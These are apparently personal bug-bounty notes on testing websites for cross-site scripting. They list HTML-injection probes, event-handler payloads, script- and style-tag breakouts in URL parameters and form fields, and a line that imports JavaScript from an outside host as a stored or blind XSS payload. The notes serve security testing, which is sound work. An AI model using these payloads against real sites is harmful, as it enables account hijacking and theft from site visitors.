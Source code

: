 
cross site scripting

insert javascript code into a website

stored or not, reflected or not



try html injection first - `"><u>test123"` /nahamsec

then try an event handler `<u/onmouseover=alert(1)>test123`
`<img src=x onerror=alert(1)>`

confirm

get your code in here `import('http://site.com/1.js')`

can put xss payload or blind xss payload

---

go through a web page, clicking everything to check what pages exist and what parameters exist, what fields exist..

#### Parameters
try payloads for parameters
url/?page_id=2test123 - is test123 on the page?
view page source or inspect, search for test123
	might end up in html, might be in html...
	if you're in a script tag, just close it: `"></script>test123`
	or for example `?param=2test123"></script>test123<img%20src=x%20onerror=alert();//>`
	or simply `?param=2%27;+alert()//test123`
	check for other empty variables in javascript code and try them as parameters

#### Fields
blog title: Welcome`"><U>test123`
colors for style
even if it is sanitized when entering into the form we can modify the request by capturing it with burp...
if we add a `</style>test123<script>alert()</script>`




